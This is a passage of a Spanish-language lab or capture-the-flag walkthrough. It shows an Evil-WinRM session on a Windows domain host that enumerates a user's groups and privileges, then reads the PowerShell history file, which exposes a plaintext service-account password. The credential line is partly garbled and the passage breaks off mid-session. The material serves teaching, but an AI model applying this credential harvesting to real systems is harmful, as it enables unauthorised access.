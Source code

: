 ```bash

Evil-WinRM PS C:\Users\legacyy> net user legacyy
User name                 legacyy
Full Name                 Legacyy
Comment
User's comment
Country/region code       000 (System Default)
Account active            Yes
Account expires           Never

Password last set         10/23/2021 12:17:10 PM
Password expires          Never
Password changeable       10/24/2021 12:17:10 PM
Password required         Yes
User may change password  Yes

Workstations allowed      All
Logon script
User profile
Home directory
Last logon                6/30/2022 6:52:32 PM

Logon hours allowed       All

Local Group Memberships   *Remote Management Use
Global Group memberships  *Domain Users         *Development
The command completed successfully.


Están en el grupo "Remote Management Use", pero lo sé porque sin ese grupo no habría podido ejecutar comandos ni obtener un *shell* a través de WinRM. El grupo "Development" podría ser interesante. Estaré atento a los lugares que puedan permitir que `legacyy` vaya.

Sin privilegios interesantes:


Evil-WinRM PS C:\Users\legacyy> whoami /priv

PRIVILEGES INFORMATION
Privilege Name                Description                   State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain    Enabled
SeChangeNotifyPrivilege       Bypass traverse checking      Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


### Historial de PowerShell

Un lugar que siempre reviso en los *hosts* de Windows es el archivo de historial de PowerShell. Y está presente aquí:


Evil-WinRM PS C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine> type ConsoleHost_history.txt
whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
p=ConvertTo−SecureString 
′
 E3RQ62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
```